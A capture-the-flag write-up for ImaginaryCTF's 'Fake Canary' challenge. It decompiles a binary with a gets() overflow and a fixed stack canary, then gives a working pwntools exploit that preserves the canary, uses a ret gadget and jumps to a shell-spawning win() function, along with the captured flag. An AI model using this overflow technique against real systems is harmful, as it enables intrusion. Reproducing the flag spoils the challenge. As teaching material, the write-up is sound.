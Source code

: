 # Fake Canary

## Challenge Description
`Description: Here at Stack Smasher Inc, we protect all our stacks with industry grade canaries!`

## Solution
> TDLR: Spray 40 random characters to fill up the array, then provide 0xdeadbeef value (so that the value of the fake canary is not modified), spray 8 random characters to overwrite the stored rbp, provide the address of `ret` gadget (to fix misalignment issue) and lastly, provide the address of win() function (to spawn a shell).

Ghidra's decompiled main() function
``` c
undefined8 main(void)
{
  char local_38 [40];
  long local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  local_10 = 0xdeadbeef;
  puts("Welcome to Stack Smasher!");
  puts("What\'s your name?");
  gets(local_38);
  if (local_10 != 0xdeadbeef) {
    puts("**HACKER DETECTED! Program aborted**");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  return 0;
}
```

The vulnerability lies on `gets(local_38)`. This line of code is vulnerable to buffer overflow.

Ghidra's decompiled win() function
``` c
void win(void)
{
  system("/bin/sh");
  return;
}
```

To spawn a shell, I need to call this function.

Before I craft my exploit, I need to find a `ret` gadget to fix the misalignment issue:
``` python
$ python3 Ropper.py -f ../fake_canary --search "ret"                   
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: ../fake_canary
0x0000000000400542: ret 0x200a; 
0x0000000000400536: ret;
```

Idea: Spray 40 random characters to fill up the array, then provide 0xdeadbeef value (so that the value of the fake canary is not modified), spray 8 random characters to overwrite the stored rbp, provide the address of `ret` gadget (to fix misalignment issue) and lastly, provide the address of win() function (to spawn a shell).

Working POC:
```python
from pwn import *

canary = p64(0xdeadbeef)
winAddr = p64(0x400725)
ret = p64(0x0000000000400536)
payload = ("A"*40).encode() + canary + ("A"*8).encode() + ret + winAddr

r = remote('chal.imaginaryctf.org', 42002)
#r = process('./fake_canary')
#pause()
r.recvuntil(b'your name?\n')
r.sendline(payload)
r.interactive()
```

Output of the POC:
``` bash
$ python3 fakecanary.py
[+] Opening connection to chal.imaginaryctf.org on port 42002: Done
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
ictf{m4ke_y0ur_canaries_r4ndom_f492b211}
```

Flag: `ictf{m4ke_y0ur_canaries_r4ndom_f492b211}`

